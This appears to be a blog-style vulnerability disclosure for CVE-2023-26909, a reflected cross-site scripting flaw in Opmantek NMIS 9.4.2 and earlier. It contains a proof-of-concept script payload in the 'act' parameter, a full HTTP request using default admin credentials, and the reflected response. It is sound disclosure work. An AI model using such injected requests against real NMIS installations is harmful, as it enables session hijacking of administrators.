 ```yaml
---
layout: post
title:  "Cross-site scripting (XSS) in Opmantek NMIS module before 9.4.3"
date:   2023-04-06 19:51:02 +0700 
categories: [cve]
---
```


* CVE ID: CVE-2023-26909
* CWE ID: CWE-79

#### Vendor: Opmantek (FirstWave company)

#### Product: Opmantek NMIS9 Virtual Appliance

#### Version affected: NMIS 9.4.2 and earlier versions

#### Product description:

FirstWave is a publicly-listed, global technology company formed in 2004 in Sydney, Australia.
FirstWave’s globally unique CyberCision platform provides best-in-class cybersecurity technologies, enabling FirstWave’s Partners, including some of the world’s largest telcos and managed service providers (MSPs), to protect their customers from cyber-attacks, while rapidly growing cybersecurity services revenues at scale.

#### Proof of Concept:

Reflected cross-site scripting (XSS) vulnerability was discovered in the product.

A cross-site scripting vulnerability was identified on the cgi-bin/config.pl page.

The following Proof of Concept (PoC) demonstrates the attack as well as displaying evidence of the script payload being returned in the response. 

#### Reproducing of Cross-Site scripting:
{% highlight ruby %}

1.GET Request

https://1.2.3.4/cgi-nmis9/config.pl?act=%3Cscript%3Ealert(1)%3C/script%3E&section=system&item=hide_groups

2. User admin/password in this case getting logged on, when injected java script gets executed.

3. Final HTTP Request/Response

Request:

POST /cgi-nmis9/config.pl HTTP/1.1
Host: 1.2.3.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------219772600018532218693195954924
Content-Length: 1030
Origin: https://1.2.3.4
Referer: https://1.2.3.4/cgi-nmis9/config.pl
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="auth_username"

admin
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="auth_password"

password
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="login"

Login
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="conf"


-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="login"

Login
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="act"

<script>alert(1)</script>
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="section"

system
-----------------------------219772600018532218693195954924
Content-Disposition: form-data; name="item"

hide_groups
-----------------------------219772600018532218693195954924--


Response:

HTTP/1.1 200 OK
Date: Wed, 04 Jan 2023 07:07:13 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/5.4.16
Expires: Wed, 04 Jan 2023 07:07:15 GMT
Set-Cookie: omk=eyJhdXRoX2RhdGEiOiJhZG1pbiIsImV4cGlyZXMiOjE2NzI4MTc4MzV9--a1cfd6a852976485aaba2df83a25208834899b73; path=/; expires=Wed, 04-Jan-2023 07:37:15 GMT; HttpOnly
Connection: close
Content-Type: text/html; charset=ISO-8859-1
Content-Length: 77

Config: ERROR, act=<script>alert(1)</script>, node=, intf=
Request not found

{% endhighlight %}

#### References:
1. https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)
2. https://firstwave.com/products/network-management-information-system/
3. https://support.opmantek.com/browse/SUPPORT-10209
4. https://community.opmantek.com/display/NMIS/NMIS+9+Release+Notes
5. https://dl-nmis.opmantek.com/nmis9-9.4.3.run
